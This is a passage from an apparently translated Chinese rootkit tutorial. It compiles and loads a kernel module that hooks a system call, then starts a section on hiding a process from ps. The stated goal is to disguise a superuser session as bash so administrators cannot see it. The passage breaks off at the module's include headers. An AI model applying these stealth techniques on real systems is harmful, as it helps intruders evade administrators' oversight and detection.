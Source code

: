 **在加载到运行中的内核后测试该hook： **

现在万事俱备，只剩下编译了。对其进行编译的时候，绝对不会像编译内核那样费时，因为它只是一个模块而已。为此，只需键入下列命令： 

```
make
```

很好，你现在应该多了一些其他文件，而我们想要的是.ko文件： 

[![](https://p3.ssl.qhimg.com/t01187aaeed5b467a53.jpg)](https://p3.ssl.qhimg.com/t01187aaeed5b467a53.jpg)

现在打开另一个终端，键入以下命令以清除dmesg，然后插入该模块并运行testPname，并跟踪其输出：

第一个终端:



```
dmesg -c
dmesg -wH
```

第二个终端:



```
insmod captainHook.ko
cd ..
./testPname
rmmod captainHook
captainhookworks
```

经过一番努力，终于成功地创建了一个可以抓取系统调用（也就是rootkit）的钩子！想象一下，如果你的__NR_ pname是__NR_open或__NR_read会怎样？ 您可以自己尝试一下，或继续阅读下一部分。不过，就这一点来说，有很多其他教程可资利用，例如：[https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/](https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/)

<br>

**对系统管理命令“ps”隐身 **

现在，让我们通过编程技术来实现对ps命令隐藏进程。首先，找到你想要隐藏的进程的PID，并想清楚你想让它伪装成哪个进程。就本例而言，我将用一个bash进程给su（sudo）进程打掩护，以便系统管理员看不到有人正在使用超级用户权限运行。

注意：Linux中的一切皆文件。例如“/proc/cpuinfo”文件存放的是CPU信息，内核版本位于“/proc/version”文件中。而“/proc/uptime”和“/proc/stat”文件则分别用来存放系统正常运行时间和空闲时间。当运行ps命令时，它实际上是打开进程的文件，以使用open()系统调用查看相关信息。当进程首次启动时，会使用系统调用write()将其写入具有相应PID＃的文件中。针对ps命令运行strace就能查找它们，或者查看它使用了哪些系统调用。

这里，我们将使用captainHook.c作为样板： 

```
nano phide.c
```



```
#include &lt;asm/unistd.h&gt;
#include &lt;asm/cacheflush.h&gt;
#include &lt;linux/init.h&gt;
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/syscalls.h&gt;
#include &lt;asm/pgtable_types.h&gt;
#include &lt;linux/highmem.h&gt;
#include &lt;linux/fs.h&gt;
#include &lt;linux/sched.h&gt;
#include &lt;linux/moduleparam.h&gt;
#include &lt;linux/unistd.h&gt;
#include &lt;asm/cacheflush.h&gt;
MODULE_LICENSE("GPL");
MODULE_LICENSE("D0hnuts");
```